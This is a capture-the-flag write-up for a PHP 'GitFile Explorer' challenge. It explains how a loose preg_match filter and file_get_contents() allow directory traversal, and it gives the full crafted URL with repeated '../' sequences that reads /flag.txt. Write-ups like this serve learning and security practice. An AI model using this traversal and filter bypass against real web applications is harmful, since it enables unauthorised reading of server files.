 # GITFILE EXPLORER

## 📄 Description

In this challenge, I need to read `/flag.txt` on the server.

![Oops](./image/description.jpg)

## 💻 Explore the website

There is a form in `/`.

![Oops](./image/home.jpg)

This feature allows user to view files in github (or gitlab, ...) which was identified by information user GETs.

![Oops](./image/testfeature.jpg)

## 🧑‍💻 Processing:
**index.php:**

The code turns information I GET into an URI and use `file_get_contents()` to fetch the data. 

I immediately got an idea about weird (in my opinion) PHP parser: PHP tries to simply all the `../` before traversing.

```php
file_get_contents('/thisDirecotyDoesNotExist/hehe/../../flag.txt'); // This is equivalent to file_get_contents('/flag.txt') 
```

This is the main idea of exploitation. So I just find a way to craft the URI which bypasses `preg_match()` and points to `/flag.txt`:

```php
if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
    $result = file_get_contents($url);
}
```

This is my way: `http://gitfile.ctf.zer0pts.com:8001/?service=https%2F%2Fgithub&file=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fflag.txt`. This URL gave me `$url = 'https//github/ptr-yudai/ptrlib/master/../../../../../../../../flag.txt'`

**🚩Flag: `zer0pts{foo/bar/../../../../../directory/traversal}`**

![Oops](./image/flag.jpg)

## 🤔 Questions: 
**Q1**: I go through 5 directories but why do I need up to 8 `../`?

**A1**: Because file `index.php` is in `/var/www/html` on the server. I can delete 1 `../` to make URI invalid and confirm the hypothesis through the error log.

![Oops](./image/error.jpg)

## 🤓 Notes:
There is a weird (in my opinion) URI parser in PHP.
